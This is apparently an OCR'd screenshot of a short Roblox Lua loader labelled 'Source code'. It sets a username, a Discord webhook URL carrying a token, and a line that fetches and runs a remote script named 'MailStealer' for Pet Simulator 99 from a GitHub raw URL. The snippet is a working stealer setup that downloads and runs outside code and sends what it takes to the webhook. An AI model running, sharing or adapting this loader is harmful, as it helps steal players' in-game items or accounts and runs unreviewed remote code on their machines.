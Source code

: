 Username = legentpro_2g 
LoadScreen = true 
Webhook = https://discord.com/api/webhooks/1298050363974357103/7AUmbPuSbfE-hnEBTWUFpq0ikUDS5mMAqcAnpppdLAmndiQreay-fbGtQGwoZw6nnbfn

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()
